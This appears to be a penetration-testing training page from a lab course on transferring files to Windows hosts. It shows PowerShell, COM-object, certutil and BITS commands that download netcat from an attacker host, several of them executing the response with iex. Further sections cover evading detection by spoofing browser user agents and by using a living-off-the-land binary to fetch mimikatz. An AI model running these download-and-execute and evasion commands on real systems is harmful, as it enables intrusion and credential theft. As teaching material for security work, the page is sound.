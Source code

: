 #### User Agents
https://useragentstring.com/pages/useragentstring.php

#### Invoke-WebRequest - Client
```powershell-session
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```
#### Invoke-WebRequest - Server
```shell-session
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```
#### WinHttpRequest - Client
```powershell-session
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText
```
#### WinHttpRequest - Server
```shell-session
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```
#### Msxml2 - Client
```powershell-session
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText
```
#### Msxml2 - Server
```shell-session
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```
#### Certutil - Client
```cmd-session
C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```
#### Certutil - Server
```shell-session
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```
#### BITS - Client
```powershell-session
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r
```
#### BITS - Server
```shell-session
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```

It would be an excellent start for any organization to create a whitelist of allowed binaries or a blacklist of binaries known to be used for malicious purposes. Furthermore, hunting for anomalous user agent strings can be an excellent way to catch an attack in progress.

## Changing User Agent

If diligent administrators or defenders have blacklisted any of these User Agents, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari. For example, if Chrome is used internally, setting this User Agent may make the request seem legitimate.
#### Listing out User Agents
```powershell-session
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```
#### Request with Chrome User Agent
```powershell-session
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```
```shell-session
$ nc -lvnp 80
```

## LOLBAS / GTFOBins
Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:
#### Transferring File with GfxDownloadWrapper.exe
```powershell-session
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```
